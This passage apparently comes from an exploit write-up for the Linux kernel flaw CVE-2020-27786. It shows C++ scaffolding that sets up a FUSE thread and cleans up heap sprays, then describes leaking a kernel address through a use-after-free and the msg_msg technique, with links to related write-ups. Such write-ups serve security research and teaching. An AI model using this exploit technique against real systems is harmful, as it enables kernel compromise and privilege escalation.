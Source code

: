 #### CVE_2020_27786 Constructor and Destructor

```cpp
class CVE_2020_27786
{
    // crate fuse thread
    pthread_t ftid;

public:
    LinKern kern{};

    CVE_2020_27786()
    {
        pthread_create(&ftid, NULL, fuse_thread, NULL);

        // wait for fuse to be ready
        while (!fuse_ready)
        {
        }
        info("fuse ready");
    }

...

    ~CVE_2020_27786()
    {
        info("cleaning up fuse");
        // exit fuse
        pthread_kill(ftid, SIGINT);
        info("cleaned up fuse");

        // clean up all the sprays
        // or else you will get a kernel panic
        // also you don't wana close it too early so we do it here
        for (auto spray : total_sprays)
        {
            close(spray);
        }
    }
}
```

## Leaking Kernel Address using UaF and msg_msg

Resource for msg_msg technique by [willisroot](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html) and [popov](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html) are good if you don't know this trick already.

Code section for this is in function call `leak_base()` and fuse handler `read_callback()` -> `if (strcmp(path, "/pwn") == 0)`

```mermaid!
flowchart LR
1[leak_base] --> 2[read_callback] --> 3[read_callback's /pwn path section]
```
